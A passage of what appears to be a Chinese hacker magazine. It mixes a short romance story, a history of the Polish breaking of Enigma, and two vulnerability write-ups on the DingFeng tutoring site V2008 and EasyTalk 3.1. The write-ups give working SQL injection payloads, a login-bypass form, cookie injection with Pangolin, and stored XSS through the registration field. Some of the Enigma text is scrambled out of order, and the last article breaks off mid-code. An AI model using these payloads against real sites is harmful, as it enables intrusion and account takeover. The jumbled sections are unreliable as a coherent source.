四日，接到电话泰未作迟疑就换衣去那男子说的地方会合。一起吃饭，一起去网吧上网，那男子并不同行，始终走在前面一点点。回房间的路上男子接到一个电话，几个字便挂断：不想和你说话。泰定定的望向男子，始终不曾问。两人依旧是一番风雨，泰略有睡意，打电话回家说跟同事睡。觉睡得却并不安稳，期间男子电话一直在响，泰模糊的听见男子在电话里对朋友说这不怎么方便，要不另开个房间给朋友睡。泰挣扎着起身穿衣：“我回家睡，再浪费钱没必要。”男子说这不好，但并未做过多坚持。泰也不看他：“没事，小区大门这时候还没关的。”男子赶忙穿衣：“我送你。”一直送到泰住的小区门口。这是两人相识以来走的最远的路，10分钟的路程。回到家，爸爸妈妈竟然都不在，于是打开电脑，直接进自己的博客写下：似乎没办法拥有他整个夜晚，我想我需要整个夜晚男子的气息。说爱太奢侈太虚假，我会给自己一个度，到了该离开的时候便会离开。本是游戏，不可伤了自己。可是自己好象已经在沦陷了，希望到时候能够华丽转身。

五日，泰幼时的玩伴说请她喝酒。那天心情出奇的不好，答应下来。打电话给那男子邀请他同去，很不乐意的样子，终究还是去了。男子给在座的每个朋友递烟，最后问泰：你要吗？泰干脆的说：要。男子低低的声音：“不喜欢女孩子抽烟，但不反对，可起码得看场合。”泰快速的回道：“我只在让我感觉安全的地方抽烟。”说完泰感觉有刺扎在心里，疼。男子接到电话后告辞，泰开始喝酒，一口一杯，直到醉意朦胧。打电话给男子，男子说让她过去。还是虚掩着的房门，进入卫生间洗澡，让滚烫的水冲刷着自己的身体。洗完用浴巾包好身子睡到了房间里的另一个床上。“睡过来。”男子命令的声音。这样的男子让泰感觉无力，她顺从，但并不代表妥协。泰问男子：“如果我喜欢上你了怎么办呢？”

“呵，喜欢我的人多了去了。”听着那满不在乎的声音，泰的心一直在冷，应该是感谢他的吧，总在自己有所妄想的时候会把火焰扑灭。本来彼此之间只是成人游戏，何必自己骗自己。

六日，泰听着电话那头不耐烦的声音，终于自己感觉累了，想着该怎么离开。休假或是辞职？事情到了现在也应该是够了的，一个轮回已经走完，没有再继续下去的必要。

七日换晚班，男子拿房卡办入住手续。刚打算上楼，就有朋友叫他出去玩。回来时乘坐朋友的车，车上下来两女两男。开车的那男人带着一女上楼，另个男人对着他说：这个你带去吧，我在对面开了房间。男子不出声也不看泰，带着那浓妆艳抹的女子去了对面。泰望着男子的背影，心久久的沉不再起来，临到下班再也没见那男子的身影，这便是结局了吧。

泰辞职那天听同事说起，有一个男子和朋友打赌，要让这城市所有酒店中稍微有点姿色的总台全部拜倒在他的牛仔裤下，而他却可以很漂亮的抽身。泰拿着刚结算的押金和工资，推开酒店玻璃门，早春的天总是朦胧，让人看不清身外景色，接下来的夏天，应该是个让人理智的季节吧。

> **编辑点评：**
> 想找一份稳定而浪漫的爱情，是世间正常男女的愿望之一。可现实总不会那么称心如意，毕竟现在这个社会想玩玩的人还是有很多的。如果成人的感情世界终究是一个游戏场，那我们各自又是哪种玩家呢？

# 黑客编年史第三集

XApache：这期的《黑客传奇》介绍的是《黑客编年史》的第三集，Enigma有史以来第一次被破译了。具体是怎么个破译法，我们还得仔细看了文章才知道。人类从远古时期懂得使用石器到近代学会使用机械，所用的时间何止千年。Enigma密码机和其破译机都将近代的精密机械技术，推向了极致……

图 文 / 苗子 蓝

> 所谓偶然，只不过是我们对复杂的命运机器的无知罢了。
> ——豪尔赫·路易斯·博尔赫斯《神曲》

破译密码，是一位天才努力揣摩另一位天才的心。这项孤独而阴暗的事业，把人类众多精英纠集在一起，为的不是别的，就是为了猜想由几个简单的阿拉伯数字演绎的秘密。这听来似乎很好玩，像一出游戏。然而，人类众多精英却被这场游戏折磨得死去活来……

上帝保佑，如果是在七十年前，你根本无缘知道这段历史，作为平民，我们不可能了解隐藏在战争机器和国家政权背后的那些较量，你也更不可能了解到那些英雄的名字——“绝密”将他们永远封存在档案室的文件中。而今天你将有幸的了解那些天才，走进那一个个鲜活的生命，与他们神秘的挑战智力极限的命运握手！

Enigma 创造了密码学历史上的一个新起点，但破解它的工作却让图灵创造出了一个奇迹——计算机。关于这个奇迹的故事，应该从什么地方开始叙述呢？

## 第四章节 揭开“谜”底的破解天才

第一次世界大战后，德国作为战败国开始反思自己的国家和军队为何在战争中一败涂地。也就在此时，作为第一次世界大战亲历者的英国军需大臣温斯顿.伦纳德.斯宾塞.丘吉尔爵士(Sir Winston Leonard Spencer Churchill, 1874年11月30日—1965年1月24日)为回顾战争出版了一套名为《第一次世界大战回忆录》(The World Crisis)的书。书中有一段这样记述：在第一次世界大战中，英国海军部有一个专门负责密码破译的机构——“第40号房间”，而战争刚刚开始，德国的密码就被破译，于是这个部门几乎是“流水线”一样的破译德国的情报。
丘吉尔这段充满胜利与调侃的文字让德国人如梦方醒，对于战败的德国人而言，屈辱再一次降临，它唤醒了深藏在德意志人心灵中的沉痛记忆。在过去的几百年间，这块被称为欧洲走廊的土地，一直就是整个欧洲的战场。德意志人经常成为环伺在周围的欧洲列强的雇佣军，在自己的土地上自相残杀。
但随着 1933 年阿道夫.希特勒登上总理之位，一个帝国就这样又一次崛起了。而在这个新生帝国的旁边，便是刚刚在第一次世界大战中从德国手中分得“西普鲁士”土地的波兰。
也就是从德国崛起的那一天起，波兰人就察觉到了危机，他们比英国更加明白自己游走在战争边缘的危险。强烈的危机感让他们很早就意识到，自己的两个“帝国兄弟”——德国和苏联，二者之中的一个早晚会将自己吞并。此时的波兰虽然已经独立，但依然是危机四伏、风雨飘摇。

这个刚刚建立起来的国家究竟能够在列强中持续多久？波兰的未来在哪里？一直有忧患意识的波兰人不得不将希望寄托在了偷听“邻居的秘密”之上。因此自它刚刚独立半年之后的 1919 年，波兰就在其总参谋部成立了密码处(Biuro Szyfrow)，专门负责截获并破译苏联和德国的密电与密码。

总参二局密码处在 1919-1920 年波苏战争中大显身手，在这个由一大批数学精英和语言专家组成的特别战斗单位中，他们的出色工作让军事上屡尝败绩的波兰军队在密码分析方面一枝独秀。在苏联大军兵临华沙的情况下，1920 年一年他们就破译了大约 400 条苏军信息，直至击溃了苏联军队。而在破译西线德国通讯密码方面，这支小组也保持了一如既往的高水准效率。但 1926 年，波兰人对德国的好运气和高效率消失了……

那一年二月份，密码处的密码学专家们突然发现，德国海军似乎启用了一种新的密码，而这种新密码他们用尽手段也无法破译——Enigma 登场了。

密码处紧急调来了全波兰最优秀的德语语言专家，但是在辛苦奋斗许久之后依然一无所获。正当这些德语专家焦头烂额的时候，波兰波兹南大学数学系却迎来了一批新生，就在这批新生中，诞生了后来开启 Enigma 秘密第一道锁的三个天才。

在此期间，密码处一直在如何对付 Enigma 而头疼，1928 年 7 月 15 日，德国国防军的密码也成为了波兰无法破译的第二个难题，整个德国正在逐渐成为一个庞大的谜团，对于生活在两只猛虎中间的波兰而言，显然没有比这更糟糕的消息了。

就在破译Enigma的天才们还在大学中读书的时候，1928年，一个偶然的事件为波兰破解 Enigma 送来了上天的礼物。这一天，## 图4 Enigma 详细示意图

当时就职的单位就是德国国防部密码局，他所提供的第一份情报就是德国军方刚刚启用不久的新型密码机 Enigma-I 的使用手册和部分细节示意图。

根据施密特的图纸，法国甚至可以复制出一台 Enigma。而施密特出卖祖国的原因非常简单，他需要物质丰富的生活。施密特 1888 年出生在德国柏林的一个中产阶级家庭，在第一次世界大战时他参军入伍。但战争以德国的失败而告终，根据战后签署的凡尔赛条约，德国进行了大裁军，施密特不幸地被踢出了军队。

退伍后他曾经营过一家肥皂厂，但是战后的经济萧条和通货膨胀让他破产了。经济上的窘境让施密特不得不求助自己在国防部身处高位的大哥，而施密特的这位哥哥也慷慨地将施密特安排到了国防部密码局。但他忘记了，施密特此时仍然是一个穷困潦倒的人，他迫切地需要金钱改善生活。于是，施密特眼前刚刚部署德军的 Enigma 成为了他生财的法宝。

虽然有了施密特提供的情报，但是谜仍然是谜。因为破译 Enigma 仅仅依靠施密特的图纸是不够的，连德国人自己都自信地说：“即使敌人获取了一台同样的机器，它仍旧能够保证其加密系统的保密性。”而事实上的确如此，就算法国真的有了一台 Enigma，如果不知道密钥的话，那么破译加密的电文仍然是一个不可能的任务。

因此施密特的这些情报并没有受到法国方面的重视，法国人理所当然地认同了德国人的思路：虽然掌握了保险柜的说明书，但是没有密码你依然无法打开柜子。于是这份重要的情报就作为战时同盟国的交换情报传递到了英国和波兰的手中，但英国人同样将它塞进了无比结实的保密柜中，不受重视的理由和法国人一样。

## 图5 Enigma 结构示意图

波兰海关连续接到了来自德国驻波兰大使馆的查询电话，这些电话无一例外地都在焦急地询问一件事：“请速将我国外交部发出来的邮包放行，交送使馆。”

连续的催问激起了波兰谍报人员的注意，于是好奇心的驱使下，他们开启了这个邮包一探究竟——出现在他们面前的是一台全新的 Enigma。

从那一天开始，波兰的谍报人员度过了几个未眠之夜，他们开始着手复制这台 Enigma 的每一个细节，描绘出它的每一个参数。兴奋成为了最好的咖啡，毕竟以前这台机器只存在于“传说”之中，而这一次它终于脱离了口头描述，从邮包的盒子中蹦了出来——真实的让你可以随意拆解它。

在如约而至的星期一，德国人“顺利”地收到了来自本国大使馆的邮包，当然还有波兰政府的歉意。波兰政府除了批评自己海关人员的官僚主义外，也顺便强调了这两天是周末，德国方面应该表示谅解。

也就是在那一年，波兰密码处正式为破译 Enigma——这台历史上第一台电子机械加密机成立了新的项目组。

好运并没有就此停止，它似乎格外青睐波兰。1931 年 10 月，一名叫做汉斯·蒂洛·施密特(Hans-Thilo Schmidt)的德国人将一份“绝密”情报递交给了法国情报服务局，而这位施密特先生……

波兰人如获至宝地得到了施密特提供的情报，但是他们也很清楚“加密系统的保密性只应建立在对密钥的保密上，不应该取决于加密算法的保密”。因此对于 Enigma 而言，它的内部构造属于现在计算机软件中的“算法”范畴，即便黑客了解了软件的算法，也并不能够根据算法还原出加密的文件，因为没有“密钥”，算法仅仅只是一个加密过程而已。

在现代计算机的应用密码学中，加密算法可以是某个抽象的数学公式，例如现在互联网中随处可见的 DEA 和 RSA 通用加密算法。也可以是经过编译的在计算机上可执行的加密程序，比如现在互联网通信中被广泛使用的 PGP(Pretty Good Privacy)。而 Enigma 更像一个专门用于加密的电子芯片。但无论如何，依靠对加密算法的保密来实现防范泄密非常不现实，因为对手随时可以通过窃取等方法获得算法、加密程序或者 Enigma。如同黑客获得了软件程序可以对其进行逆向工程一样，算法最终会被暴露出来。

但是，如果泄密的仅仅是密钥，那么丢失的最多只是与密钥有关的信息，日后更换密钥即可弥补失误。但如果是加密算法泄密，而整个系统的保密性又建立在算法的秘密性上，那么所有由此算法加密的信息就会全部暴露。更糟糕的是，为了使以后的通讯保持秘密，必须完全更换加密算法，这意味着你必须更新加密机器或更换程序。比起简单地更换密钥，这要耗费大量财富和管理资源。

不过在 Enigma 诞生近 80 年后的今天，人们仍然在犯低级的错误，他们用最先进的计算机将加密系统的保密性构架在对加密算法的保密上，并为此付出了沉重的代价。这其中最为广为人知的莫过于 DVD 的加密算法(DVD Movie encryption scheme)被破解的例子。

在 DVD 诞生不久后，信息和密码专家通过对 DVD 驱动器解密芯片和解密软件的分析得到了它的加密和解密算法，而知名黑客组织立即以此为基础编写了一个破解 DVD 加密算法的程序 DeCSS。虽然在 2000 年 1 月，美国法官刘易斯·卡普兰裁定在互联网上传播 DeCSS 程序为非法，但是这种行政的强制手段似乎毫不奏效。反对裁决的一方以保护言论自由的美国宪法第一修正案来反驳，卡普兰不得不附加了“计算机源程序不属言论”的附加裁定。

但这个附加裁定似乎也没有什么太大的用处——黑客们虽然不能直接传播 DeCSS 的源程序，如果愿意的话，人们还是可以用“源程序的第一个字母是 A，第二个字母是 =”这类卡普兰法官绝不能归到“非言论”一类去的方法来描述。在网络上有十几种怪里怪气的“不违法”地传播 DeCSS 的方法，其中包括一首英文诗，一件印着源程序的 T 恤衫，一段朗诵源程序的录音和三张显示着源程序的 GIF 图片——法官大人下令禁止的是源程序，而图片恰巧不属于这个范畴。

更有甚者，有人在网上公布了一个素数，如果把这个素数写成十六进制并记录成一个文件，我们就可以用解 gzip 格式的压缩软件(比如说 WinZip)来将它解成 DeCSS。如果卡普兰法官下令禁止这个素数的话，它很有可能成为有史以来第一个“非法”的素数。

而在此时更换加密算法已经不可能，因为 DVD 作为标准已经被固定下来，它的加密算法也就此形同虚设。这一原因也是法国密码分析人员断定 Enigma 密码是不可能被破译的基础，以至于在获得如此丰富的情报之后，这些法国密码人员都不愿意浪费时间去复制一台 Enigma 来研究一下其中的奥秘。

但这些情报引起了一名刚刚加入密码处的破译人员注意，他就是马里安·雷耶夫斯基(Marian Rejewski)。他与他的同学亨里克·齐加尔斯基(Henryk Zygalski)、杰兹·鲁日茨基(Jerzy Rozycki)均毕业于波兹南大学数学系，并被学校专门作为密码破译的后备力量培养。他们凭借着天赋和激情展开了对 Enigma 的破译工作，而他们取得的成绩使后人将其称为“数学三杰”。

在他们三个人中，雷耶夫斯基的表现最为出色。这位出生在西普鲁士的数学家敏锐地察觉到了 Enigma 的致命问题。他发现在施密特提供的有关 Enigma 的情报中，不仅有这部神奇机器的构造和转轮内部连线的描述，还有德国人使用该机器进行编码的具体规定。他发现每个月德军的每台 Enigma 机的操作员都会收到一本当月的新密钥密码本，上面有此月每天使用的密钥，例如，第一天启用初始密钥：

- (1)连接板的连接：A/L-P/R-T/D-B/W-K/F-O/Y
- (2)转轮的顺序：2，3，1
- (3)转轮的初始方向：Q-C-W

这种方式非常类似现在网络银行使用的口令卡，发现这一秘密的雷耶夫斯基开始通过数学“群论”中的“矩阵置换求解”来研究这个问题。他察觉德军的发报人员需要在发送前三个字母时进行一次重复，而重复是密码致命的弱点。

在德军每封密电最开始的六个字母是这封信件的密钥，然而德军往往将密钥的前三个字母进行一遍重复后当作当天的密钥加密发送。例如在一封信件中密钥是 QWE，那么这封信的密钥就是 QWE，那么密码破译人员将会首先用当日通用的密钥加密 QWEQWE，在得到六个字母加密后，可以再用 QWE 来作为密钥加密正文，最后把原文放在加密后的正文前，一起用电报发给收信方。

在一所名为“Black Chamber”的房子中，雷耶夫斯基开始了自己的破译工作。雷耶夫斯基很快就发现这些循环圈长短不一，这使他有了一个重要的灵感：虽然这些循环圈是由当日密钥、转轮位置和初始方向以及连接板上字母置换生成的，但是每组循环圈的个数和每个循环圈的长度，却仅仅是由转轮的位置和它们的初始方向决定的，它们与连接板上的字母交换没有任何关系。

这是一个非常重大的进展，因为从上一章我们曾计算出，如果要强行试遍 Enigma 所有的密钥来破解密文至少需要测试一亿亿个密钥之多。然而 Enigma 数量巨大的密钥现在却主要由连接板来提供，因此如果只考虑转轮位置和它的初始方向，那么密钥只有 105456 种可能性。虽然这还是一个很大的数字，但是把所有的可能性都试验一遍，已经是一件可以做到的事情了。

对 Enigma 的破解即便在总参二局领导内部也属最高机密，当 1934 年纳粹德国元帅赫尔曼·戈林访问波兰首都华沙时，他无论如何也无法相信波兰此时已经掌握了德国的全部机密。当他和德国高级官员向波兰无名战士墓献花圈时，距此不远的雷耶夫斯基也正透过办公室的窗子望着他们。

随后雷耶夫斯基在 Enigma 的基础上设计了一台能自动验证所有 26*26*26=17576 个转轮方向的机器，为了同时试验三个转轮所有可能位置的排列，就需要 6 台同样的机器。全部六台 Enigma 和帮助他们协同工作的其他器材组成了一个大约一米高的庞大机器，它能在两小时内找出当日德军使用的密钥。由于这台机器在工作时会发出如同定时炸弹钟表一样的滴答滴答声，因此雷耶夫斯基他们将其命名为 Bomba “炸弹”。这台机器彻底实现了对 Enigma 的机械化解密，大大地提高了波兰密码处破译德军密码的能力。

在雷耶夫斯基和他同事的努力下，波兰情报部门在后来的几年里成功地掌握大量德国情报。据估计，在 1933 年 1 月到 1939 年 9 月这六年多的时间里，波兰方面一共破译了近十万条德方的消息，其中最重要的有德国在苏台德地区兵力重新部署的情报，这对波兰的安全是极大的威胁。

但是，技术也是随着时间的推移而不断进步的，波兰密码处的破译能力在 1938 年 12 月达到了极限，德国军方察觉了 Enigma 早期的弱点，开始增强它的加密能力。他们不再将转轮固定为三个，而是为每台 Enigma 准备了五个转轮，而在使用时可以在这五个中间任选三个。因此转轮的变化方式由以前的 6 种变成了 5*4*3=60 种。这就意味着要达到原来的破解效率，“炸弹”中必须有 60 台机器同时运转，足足增加了十倍。而建造这样一台“炸弹”的价格是密码处总预算的十五倍。

图 6 雷耶夫斯基塑像，他旁边的就是 Enigma

随后在 1939 年 1 月，德国人又将连接板上的连线由六根增加到十根，这样就只剩 6 个字母不会被交换。密钥的总数达到了二万五千九百亿亿个，是原来的一万五千九百倍。此时雷耶夫斯基的方法失去了破译 Enigma 的威力。

1939 年 9 月 1 日，德国发动闪电战，入侵波兰。随后苏联也趁虚而入，波兰就这样在两个帝国的铁蹄下被瓜分。但雷耶夫斯基的 Bomba 却对另外一个人引起了深远的影响，他的出现改变了世界的历史，也正是他为当今的黑客创造了世界上最早的电子破译机器——计算机！

……待续……

结语：对于现在的黑客来说，谈起雷耶夫斯基时，是一个遥远的名词，然而我们需要永远记住的是，正是他们面对强敌永不言败的精神使得我们今天的世界得以呈现现在的样子。

> **小天栏首：**
> 你这个月堕落了吗？
> 对小编来说，这个月注定了是堕落的一个月，不为别的，单单一个欧洲杯就足够了（啊，你不是球迷呀？那没你啥事，你可以接着看文章去了。）。对于偶们这些铁杆球迷、假球迷或者伪球迷来说，本次欧洲杯有太多的期待了，不说最终冠军会花落谁家？就拿每一场比赛来说，其诱惑力无疑都是巨大的，你能想到荷兰能以 3:0 给世界冠军意大利当头一棒么？最终是否还会有丹麦童话？希腊是否能再次缔造神话呢？
> 尽管每天凌晨 0 点开始，看完两场比赛就差不多了，然后赶紧爬到床上打会盹，就得赶紧爬起来，迷迷糊糊的挤车上班去。晕乎乎的一整天过完后，赶紧吃饭、洗澡，然后就坐在电视前等待又一场比赛的开始，如此反复，不是堕落是啥呢？

# 鼎峰家教网 V2008 漏洞分析续篇
Cool_wxD[C.R.S.T]

- 从本文可以学到：
- 鼎峰家教网遗留漏洞的分析

看了黑手 0806 期上的《鼎峰家教网 V2008 漏洞分析》这篇文章，作者在接触脚本安全不久便能够通过实践自己挖掘漏洞，真的是一种进步！不过在文章中作者还是出现了一些疑问，所以我也下载了这套系统来看一看，也就产生了这篇文章！下面我们还是看代码吧！

在 0806 期中提到过的漏洞我们就不说了，还是说一些补充方面的东西！首先我们说一说注入漏洞，正如上期作者所写，防注入代码只是针对 Request.QueryString 进行了过滤，那么我们就可以尝试其他的方式注入！那就是直接通过 request 获取变量和通过 request.form 获取变量！这两个例子我们都分别用一个漏洞来描述！我们来看直接用 request 获取变量的注入！文件 News_View.asp 中的 233 行，代码如下：

```sql
sql = "select * from news where id="&Trim(Request("id"))
```

看到这个，我们就知道通过 POST 方式提交或者 Cookie 注入都是可以跳过防注入代码的！因为下面我们还要讨论通过 POST 提交方式的注入，所以这里我们使用 Cookie 注入吧！使用的工具是 GreenBrowser 及其插件 JavaScript Cookier，我们来看看操作！这里我们用演示站点来测试！在 GreenBrowser 中打开 News_View.asp，返回的界面是错误，因为没有给定参数“id”，如图 1 所示。

然后打开 cookie 注入工具 JavaScript Cookier，在相应的输入框中按如图 2 所示输入，并依次点击有效期，源读入和写入。然后我们刷新 News_View.asp 页面，返回正常，如图 3。然后再次回到 JavaScript Cookier 中，将图 3 刷新页面 id 的属性修改为 `12 and 1=2`，并刷新 News_View.asp 页面，返回错误，如图 4，图 5。

> 一个自称为“黑客”的菜鸟在使用工具“注入”网站的时候，他们实在应该去看看雷耶夫斯基在 1977 年发表的《置换理论在破译 Enigma 密码中的应用》(An Application of the Theory of Permutations in Breaking the Enigma Cipher) 这篇论文。

> **编辑点评：**
> 魔高一尺，道高一丈，Enigma 终于还是被人找出了弱点。很佩服波兰这个国家，虽然打仗不怎样，但是高等物理学和密码学始终走在世界的前列，他们的这两种科技，最后成为了第二次世界大战中法西斯集团毁灭的终极武器。

由此我们也看到了，注入点是确实存在的！至于注入漏洞的利用，在以往的“黑手”中都有关于手工注入的教程，这里我们就不浪费版面了！下面我们再来看看通过 request.form 获取变量的注入！文件 user_login.asp 中的代码从第 4 行开始，如下：

```asp
<%
if Request.QueryString("Action")="login" then
    user=Trim(Request.Form("user"))
    pass=Trim(Request.Form("pass"))
    SQL="Select * from U_s_e_r where user='"& user &"' and pass='"& md5(pass) &"'"
    set rs=server.createobject("adodb.recordset")
    rs.open SQL,conn,1,1
    if rs.bof and rs.eof then
        Response.write "<script language='javascript'>alert('用户名或密码错误！');history.go(-1);</script>"
        Response.End()
    else
        Session("user")=rs("user")
        Response.Redirect("User_Center.asp")
        Response.End()
    end if
    rs.Close
    Set rs=nothing
else
    Response.Redirect("Index.asp")
end if
%>
```

我们看到 user 和 pass 只是经过 trim() 去掉两边的空格，没有经过其他验证便进行 SQL 语句的执行！而且防注入系统只是针对 Request.QueryString 进行了过滤，那么我们通过 POST 方式提交就可以绕过了！首先我们自己构造一个 html 页面，代码如下：

```html
<form method="post" action="http://127.0.0.1/User_login.asp?Action=login">
<p>用户名：<input name="user" type="text" size="50"></p>
<p>密 码：<input name="pass" type="password" size="50"></p>
<input type="submit" value="登录">
</form>
```

下面我们进行提交，我注册的用户名是 bushiba，密码为 123456，那么针对这个字符串的注入，提交为用户名 `bushiba' and 1=1 and ''='`，密码正常输入 123456，如图 6。点击提交，返回的是正常登录页面，如图 7。然后我们再次提交用户名 `bushiba' and 1=2 and ''='`，密码正常输入 123456，并提交，返回如图 8。

漏洞也确实是存在的，至于手工注入获取管理员账号和密码我们这里就不多说了！下面我们来讨论一下作者遗留的另一个问题，就是关于搜索型注入漏洞的工具使用！这里我们以 pangolin 为利用工具说一说吧！正如 0806 期作者分析，这个搜索型注入是通过 POST 方式提交绕过防注入代码，那么我们就可以利用注入工具的 POST 方式进行漏洞的检验！这里我们用 0806 期作者所用的 So_result2.asp 页面来进行演示，代码 229 行，如下：

```sql
sql = "select * from Stu where yn=1 and "&Request.Form("lb")&" like '%"&Request.Form("keyword")&"%' order by addtime desc"
```

一个 SQL 语句两个注入，因为我们前面已经讨论过 Request.Form 方式的注入，所以针对 Request.Form("lb") 这个变量的注入我们就不讨论了！直接看 Request.Form("keyword") 这个！提交的变量是两个，一个是 lb，另一个是 keyword，我们构造一下 URL: `http://edu.dfcms.cn/sch/jj/So_result2.asp?lb=sex&keyword=男`，然后放入 pangolin (注意针对软件设置时应将搜索型选上)，并把方式改为 post，然后进行检测，我这里检测结果如图 9 所示。

这样作者遗留的疑问我们也就解决了！具体的猜解密码我们就不做过多的说明了！关于这个程序的注入漏洞，由于只是过滤了 Request.QueryString 获取变量，所以导致我们可以通过 POST 方式和 Cookie 方式都可以达到注入！而且注入漏洞还是很多的，这里我们只举了这三个代表性的！其他的还需要朋友们自己去挖掘！

关于注入漏洞的修补，0806 期作者所说的在 sql.asp 中只加入针对 request.form 方式的防注入代码还是不够的，还需要加入针对 request.cookie 方式的防注入代码，而且可以参照 neeao 大牛写的防注入程序！

由于这套程序还没有开发完善，许多功能还没有添加，对于新闻之类的评论都没有，但是在这较少的交互中，还是存在了跨站漏洞！我们还是具体看看吧。这里我们就会看会员注册部分吧！页面 User_Reg.asp 中获取变量和写入数据库的语句代码如下：

```asp
if Request.QueryString("Action")="reg" then
    Dim username,password,password2,name,sex,email
    username=Trim(Request.Form("username"))
    password=Trim(Request.Form("password"))
    password2=Trim(Request.Form("password2"))
    name=Trim(Request.Form("name"))
    sex=Trim(Request.Form("sex"))
    email=Trim(Request.Form("email"))
    SQL="Select * from U_s_e_r where user='"& username &"'"
    set rs=server.createobject("adodb.recordset")
    rs.open SQL,conn,1,3
``````asp
if not rs.bof and not rs.eof then
Response.Write "<script language='javascript'>alert('该用户名已注册，请使用其他用户名！');history.go(-1);</script>"
Response.End()
else
    rs.AddNew
    rs("user")=username
    rs("pass")=md5(password)
    rs("name")=name
    rs("sex")=sex
    rs("mail")=email
    rs.Update
end if
rs.Close
Set rs=Nothing
Response.Write("<script>alert('恭喜您，注册成功，请返回登录！');location.href='Index.asp';</script>")
end if
%>
```

图11 跨站成功

直接获取，直接写入！但是我们需要注意的是，这些字段在数据库中定义的长度最长为 E-mail 的 100 个字符，其他的最长 20 个字符，所以我们使用这个！但是我们发现在注册时提示的却是“请输入正确的邮箱账号！”这个是客户端验证的，我们只需要本地提交就可以了，修改邮箱部分的 maxlength="50" 为 maxlength="100"，还有就是去掉 dataType="Email" msg="信箱格式不正确"，并把提交部分改为 action="http://url/User_Reg.asp?Action=reg"，然后按照如图10输入方式提交。

然后我们到后台看一看，在查看注册会员时，显示如图11所示。跨站漏洞形成！我想当这个程序完善的时候会有更多跨站的地方！针对跨站漏洞来说，只有想不到，没有办不到！在跨站利用方面，我想会有更多好的方法，朋友们也可以尝试一下通过跨站实现添加管理员！针对跨站漏洞的修补，应该是在服务端对用户提交的数据进行有效的过滤，而不是类似这种在客户端进行验证，这样的验证突破还是很简单的！

以上就是我针对鼎峰家教网 V2008 漏洞的简单分析，0806 期作者所提过的漏洞我们这里没有进行考虑！对这套系统来说，个人认为还处于代码编写的初期，很多部分还没有完善，虽然管理员有一定的安全基础，但是还是考虑得不够周全，算上 0806 期作者所提过的，这个系统就存在暴库、eWebEditor 的利用、注入、跨站！我想这套系统还是有很多地方需要提高的！文章就写到这里，如果朋友们有什么疑问可以联系我，我的论坛 ID 是 CooL_wXd。

（本文中构造的页面 1.html 已经收录在光盘中。）

# 编辑点评

Good，在 0806 期上的《鼎峰家教网 V2008 漏洞分析》文章中，作者遗留的这几个问题在这里都得到很好的解答，且对其不完备的地方进行了补充，相信通过本文，大家对鼎峰家教网又有了一个新的认识，同时对自己技术的提高也起到不可忽视的作用。

sniperhg [O.S.T]

从本文可以学到：

- EasyTalk 漏洞分析
- 上传漏洞分析和利用

一次性下了几套 PHP 的程序，就一起读了，都不同程度地发现一些问题，这次看的这个 EasyTalk 3.1 还特别严重的说。

# 一、无处不在的注入

可以说，这个程序对注入基本都没有防范，但是变量都用引号引用的，所以我们也只能在 magic_quote_gpc=off 下才能注入，随便拿个文件看看吧，user_info.php：

```php
$sid=$_GET['sid'];
$query = "select username,user_pic,total_click,user_web,user_province,last_login from ".$DBprefix."users where user_id='$sid'";
$result=mysql_query($query);
$data = @mysql_fetch_array($result);
$uname=$data['username'];
$upic=$data['user_pic'];
$rq=$data['total_click'];
$lastlogin=$data['last_login'];
$lastlogin=gmdate('y-m-d H:i:s',$lastlogin+8*3600);
$uweb=$data['user_web'];
$uprovince=$data['user_province'];
```

$sid 直接 GET 来的，没任何过滤就带入了 SQL 查询，导致注入的产生，图1和图2为检测图。

有很多是出现在 select 这样的 SQL 中，还有几个文件存在 insert 语句里，这样我们就可以插入任意数据，比如注册文件 register.php：

```php
$username1 = $_POST["username"];
$mailadres1 = $_POST["mailadres"];
$password1 = md5($_POST["password"]);
$confirmpassword1 = md5($_POST["confirmpassword"]);
$namelen=strlen($username1);
if($namelen<4 && $namelen>12)
{
    $UserNameGood = false;
}
mysql_query("set names gbk");
$query = "Select username, mailadres from ".$DBprefix."users where username='$username1' or mailadres='$mailadres1'";
$result = mysql_query($query);
$row = mysql_fetch_array($result);
$reg_username=$row['username'];
$reg_mail=$row['mailadres'];

elseif ($PassWordGood == false) {
    $errormessage=showmsg("错误提示：你输入的密码含有不允许的字符。");
}
elseif (validadres($mailadres1) == false ) {
    $errormessage=showmsg("错误提示：你输入的电子邮件格式不正确。");
}

...省略一些判断....

else {
    $datetime = time();
    mysql_query("set names gbk");
    $query = "INSERT INTO ".$DBprefix."users (username, password, mailadres, signupdate) VALUES ('$username1', '$password1', '$mailadres1', '$datetime')";
    $result = mysql_query($query);
```

这里的 $username1 有个长度判断，所以我们不能对它做手脚，再看变量 $mailadres1，有个 validadres 函数进行判断，我们看这个函数的定义：

```php
function validadres($MailAdres)
{
    $prereturn = true;
    if (strlen($MailAdres) < 5) { $prereturn = false; }
    $partsNumber = split("@", $MailAdres);
    if (count($partsNumber) <> 2) { $prereturn = false; }
    else{
        list($user, $domain) = split("@", $MailAdres);
        if (strlen($user) < 1) { $prereturn = false; }
    }
    return $prereturn;
}
```

首先检测 $MailAdres 的长度，如果小于 5，逻辑变量 $prereturn 就为 FALSE，这个我们可以满足，因为我们的 $MailAdres 不可能小于 5。接下来以“@”来分割 $MailAdres，然后再检查分割出来的是不是 2 个部分，意思就是我们的 $MailAdres 里必须只有 1 个 @ 号。最后检查 @ 前面那部分，也就是用户名部分长度是不是小于 1。反正这个函数没有检查我们用到的字符，只是在逻辑方面做了些判断，所以我们的注入语句是可以存在的。当然，仍然是 magic_quote_gpc=off 才能利用的。注册的时候我们的 email 写：

111ccc@11112222.com','1111'),('<iframe src=http://www.baidu.com/ ></iframe>','f10203db77ca0fdb228a7aad3a576274','11dddd

代入到 SQL 里就是：

```sql
INSERT INTO ".$DBprefix."users (username, password, mailadres, signupdate) VALUES ('$username1', '$password1', '111ccc@11112222.com', '1111'), ('<iframe src=http://www.baidu.com/></iframe>', 'f10203db77ca0fdb228a7aad3a576274', '11dddd', '$datetime')
```

前后都用单引号闭合了，这样注册后，不仅有个正常注册的用户，还有一个用户名为“<iframe src=http://www.baidu.com/></iframe>”的用户也注册了，呵呵，一句跨站代码，是不是杀伤力很大？这样在主页是会显示最新注册用户的哦，也就是说我们的跨站代码也显示在了主页上，如图3、图4。

还有一个 message.php 文件也存在同样问题，读者自己研究研究，看怎么给别人发“奇形怪状”的消息咯，嘿嘿。

## 二、跨站

刚才的注入我写的就是一句跨站代码，不过是通过注入漏洞实现的，而现在要说的是用户可以直接输入的。用户信息修改文件 settings.php 代码如下：

```php
if ($action=="settings.base") {
$syshead= $_POST["syshead"];
$gender= $_POST["gender"];
$sf= $_POST["sf"];
$city= $_POST["city"];
$province= "$sf $city";
$website= $_POST["website"];
$detail= $_POST["detail"];
